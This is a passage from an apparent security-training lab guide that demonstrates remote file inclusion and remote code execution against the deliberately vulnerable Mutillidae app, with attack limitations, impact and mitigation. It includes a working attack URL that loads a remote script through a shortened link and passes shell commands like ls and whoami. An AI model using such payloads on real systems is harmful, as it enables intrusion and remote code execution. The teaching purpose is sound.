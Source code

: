    - Run the command. The webpage displays the results of the `whoami` command run against the web server: `www-data`.
  
      ![The Mutillidae webpage features text that says "www-data www-data".](Images/RFI8.png) 
 
   - Run `ls` to show that almost any command-line command can be run: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=ls>.
 
#### Demonstration Summary 
 
Summarize that being able to successfully change the parameter of the URL to point to a remote script and then subsequently running this script indicates that this web application is vulnerable to **remote file inclusion**.

- Also note that the ability to arbitrarily execute command-line code with the remote script means this web application is also vulnerable to **remote code execution**.

#### Real-World Challenges

**Limitations of the RFI attack:** To conduct this attack successfully, the web server not only needs to run PHP but also needs to enable a configuration setting to allow external URLs. Many web servers that run PHP do not have this configuration enabled.

**Variety of attacks:** The demonstration illustrated using one type of malicious script and two command-line commands.
  
  - Thousands of malicious scripts can be uploaded, and many malicious commands can be run.
  
  - The attack method used the PHP language, but this attack can also be accomplished with other languages, such as ASP. 
              
#### Impact

If a malicious actor can remotely access a malicious script, they can do the following:

- View confidential files or data.

- Modify or delete confidential files or data.

- Modify or delete critical files to cause system disruptions.

#### Mitigation Methods

The best way to protect from RFI is to avoid passing user-submitted input to your web server. This can be accomplished by using input validation.

#### Remote File Inclusion Summary
